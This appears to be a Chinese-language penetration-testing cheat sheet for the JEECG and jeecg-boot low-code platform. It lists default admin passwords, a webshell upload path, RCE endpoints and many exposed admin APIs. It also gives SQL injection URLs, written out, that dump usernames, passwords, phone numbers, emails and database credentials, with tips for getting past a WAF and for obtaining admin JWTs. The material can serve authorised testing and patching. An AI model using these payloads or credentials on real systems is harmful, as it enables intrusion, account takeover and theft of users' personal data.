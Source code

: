 JEECG(J2EE Code Generation)是开源的代码生成平台，目前官方已停止维护。
**注：Jeecg 与 Jeecg-boot 非相同应用。** Jeccg官方地址为：https://gitee.com/jeecg/jeecg
^


jeecg-boot是一个基于SpringBoot的低代码开发平台CMS，号称最具影响力。



特征：
/system/
/sys/
/jeecg-boot/
/jeecg-boot/sys/
/jeecg-boot/sys/common/upload

演示站细看：<http://boot3.jeecg.com/login>
开发文档：<https://help.jeecg.com/java/java/qa.html>

JEECG的默认登录账号密码如下：
1. [账号：admin，密码：123456](http://idoc.jeecg.com/1275933)[](http://idoc.jeecg.com/1275933)[](https://www.cnblogs.com/CHENJIAO120/p/7079300.html)
2. [账号1：jeecg，密码1：jeecg#123456；账号2：qinfeng，密码2：jeecg#123456]
3. [在jeecg-cloud-nacos中，nacos鉴权的默认用户名密码为nacosnacos](https://segmentfault.com/a/1190000045065819)[](https://segmentfault.com/a/1190000045065819)
4. [在在线接口文档swagger中，登录名为jeecg，密码为jeecg1314](http://doc.jeecg.com/2043926)[](http://doc.jeecg.com/2043926)

^
## **存在多个历史漏洞**
工具：<https://github.com/R4gd0ll/I-Wanna-Get-All>
<https://my.oschina.net/jeecg/blog/10150942>
<https://xz.aliyun.com/t/15138?time__1311=GqjxuQD%3DeYqeqGNDQi5BKKdgzwxAKGC%2BCeD>

接口文档泄露：
/jeecg-boot/v2/api-docs

账号创建漏洞：
/jeecg-boot/server/sys/user/addy

任意文件上传，可以传webshell：
/jeecg-boot/commonController.do?parserXml

SQL注入：
1）/sys/duplicate/check
2）/sys/ng-alain/getDictItemsByTable/
3）/sys/dict/queryTableData
4）/jmreport/qurestSql

RCE：
/jeecg-boot/jmreport/queryFieldBySql
/jeecg-boot/jmreport/loadTableData
/jeecg-boot/jmreport/testConnection
/jeecg-boot/api/../jeecgFormDemoController

如：/jeecg-boot/jmreport/loadTableData命令执行：
<https://blog.csdn.net/qq_36334672/article/details/136025263>
设置token(可选)和请求体，响应包里有命令执行结果。
如：testConnection
<https://mp.weixin.qq.com/s/DW_tUQt9qjNb6woZy42xeA>

^
后台jdbc


^
工具：<https://mp.weixin.qq.com/s/loTo06eNhyUIxUIPGJQuzg>
用工具加上前缀/jeecg-boot/、/jeecgboot/、/xxx-boot/、/api/

^
敏感接口
```
/user/register
注册

数据源：
/monitor/datasource
/isystem/dataSource
/xxx/dataSource
/jeecgboot/sys/dataSource/list

看指定数据库的账号密码:
/jeecgboot/sys/dataSource/queryById?id=1209779538310004737

OSS存储数据列表：
/jeecgboot/sys/oss/file/list


附件数据列表：
/jeecgboot/system/sysFile/list
/api/system/sysFile/list


第三方配置：
/jeecgboot/sys/thirdApp/getThirdConfigByTenantId




字典
/jeecgboot/sys/dict/list?column=createTime&order=desc


用户列表
/jeecgboot/sys/user/listAll
/jeecgboot/sys/user/list



流程监听
/jeecgboot/act/process/extActListener/list


网关路由
/jeecgboot/sys/gatewayRoute/list



数据日志
/jeecgboot/sys/dataLog/list
登录日志
/jeecgboot/sys/log/list?logType=1
操作日志
/jeecgboot/sys/log/list?logType=2
异常日志
/jeecgboot/sys/log/list?logType=4


请求追踪，最近的请求
/jeecgboot/actuator/httptrace-new/all
/jeecgboot/actuator/httptrace-new/success

在线用户
/jeecgboot/sys/online/list




##### 版本号：
3.7.0
##### 问题描述：
当主表的数据关联不上子表的任何数据时，查看详情会弹出tips 子表获取数据失败:xxx，直接暴漏了子表的名称

/jmreport/
一般是8085:/jmreport/
有没有开启积木报表功能，开启了更多漏洞。
积木报表管理数据集，点击设计报表可以运行sql，左边维护可以查看数据库源密码和jdbc。
```

^
## **漏洞**
### **SQL注入**
getDictItemsByTable注入分析：<https://xz.aliyun.com/t/13186?time__1311=GqmhkD8iGNDKKYK0%3DeG%3Dt0QqitoQymmD>
```
sql注入账号密码查询。若报错可报项目路径
/sys/ng-alain/getDictItemsByTable/sys_user/username/password
/jeecg-boot/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/*,%20'/x.js
/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/username,password%20'/x.js

sys_third_app_config
sys_data_source
oss_file
mysql.user
要有查看权限对于语句 select *, ' as "label",x.js as "value" from ' from mysql.user

```
注入2
```
/jeecg-boot/api/sys/dict/queryTableData?pageSize=10000&table=information_schema.tables&text=table_name&code=TABLE_SCHEMA
```
网上公开poc为

GET /jeecg-boot/sys/dict/queryTableData?pageSize=100&table=information_schema.tables&text=table_name&code=TABLE_SCHEMA


GET /sys/dict/queryTableData?pageSize=100&table=information_schema.tables&text=table_name&code=TABLE_SCHEM
如果遇见waf无法sqlmap跑东西时可利用如下poc拿数据深入利用，可自行进行拓展

| 查看用户手机 | /sys/dict/queryTableData?table=sys_user&pageSize=22&pageNo=1&text=username&code=phone |
| 查看用户邮箱 | /sys/dict/queryTableData?table=sys_user&pageSize=220&pageNo=1&text=username&code=email |
| 查看用户密码 | /sys/dict/queryTableData?table=sys_user&pageSize=220&pageNo=1&text=username&code=password|
| 查看数据库地址 | /sys/dict/queryTableData?table=jimu_report_data_source&pageSize=22&pageNo=1&text=db_username&code=d




^
### **未授权泄露最近的请求路径**
```
/sys/user/querySysUser?username=admin 查询某个用手机号
/jeecg-boot/actuator/httptrace/  可能获取到管理员jwt
/api/actuator/httptrace

/sys/getEncryptedString  获取AES加密IV
```

普通账户权限提升：
<https://github.com/jeecgboot/JeecgBoot/issues/5270>